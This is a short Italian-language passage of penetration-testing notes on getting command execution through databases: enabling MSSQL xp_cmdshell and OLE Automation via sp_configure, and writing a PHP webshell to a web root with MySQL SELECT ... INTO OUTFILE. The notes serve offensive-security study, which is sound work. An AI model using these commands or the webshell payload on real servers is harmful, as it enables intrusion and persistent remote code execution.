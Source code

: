 in **MSSQL** c'e' **xp_cmdshell** che ci permette di avere una command-shell, comunque e' disabilitata di default.

`1> xp_cmdshell 'whoami'`

Se abbiamo i giusti privilegi possiamo abilitarla: 

```
-- To allow advanced options to be changed.  
EXECUTE sp_configure 'show advanced options', 1
GO

-- To update the currently configured value for advanced options.  
RECONFIGURE
GO  

-- To enable the feature.  
EXECUTE sp_configure 'xp_cmdshell', 1
GO  

-- To update the currently configured value for this feature.  
RECONFIGURE
GO
```

Ci sono altri modi per ottenere code execution, ad esempio MySQL supporta User Defined Functions, che permette a codice C/C++ di eseguire come funzione in SQL.

## Write Local Files

### Mysql
MySQL non ha stored procedure come xp_cmdshell pero' possiamo scrivere file nel sistema

`mysql> SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';` Esempio di caricare una webshell in unaa directory

Questa operazione e' permessa solo se abbiamo i permessi di fare cio', si vede dalla variabile globale **secure_file_priv**

`mysql> show variables like "secure_file_priv";`, se e' vuota possiamo leggere e scrivere.


### MSSQL

### Enable OLE Automation process
```
1> sp_configure 'show advanced options', 1
2> GO
3> RECONFIGURE
4> GO
5> sp_configure 'Ole Automation Procedures', 1
6> GO
7> RECONFIGURE
8> GO
```

